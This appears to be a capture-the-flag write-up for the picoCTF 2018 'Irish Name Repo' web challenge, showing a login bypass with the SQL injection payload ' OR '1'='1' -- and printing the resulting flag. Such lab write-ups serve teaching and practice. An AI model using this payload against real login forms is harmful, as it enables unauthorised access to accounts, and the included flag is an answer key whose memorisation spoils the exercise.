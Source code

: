 # Irish Name Repo
Points: 200

## Category
Web Exploitation

## Question
>There is a website running at http://2018shell1.picoctf.com:59464 ([link](http://2018shell1.picoctf.com:59464/)) . Do you think you can log us in? Try to see if you can login!

### Hint
>There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

## Solution
looking at the support section of the site, it can be seen that the site uses SQL to store data,this could mean that it is vulnerable to SQL injections

```
Cannot add name
Hi. I tried adding my favorite Irish person, Conan O'Brien. But I keep getting something called a SQL Error
That's because Conan O'Brien is American.
Admin
```

going to the login section of the site, it is seen that it accepts a username and password

```
Log In

Username: 
Password:
```

using the username `Admin` and password `' OR '1'='1' --`
we get the flag

```
Logged in!
Your flag is: picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}
```

### Flag
`picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}`
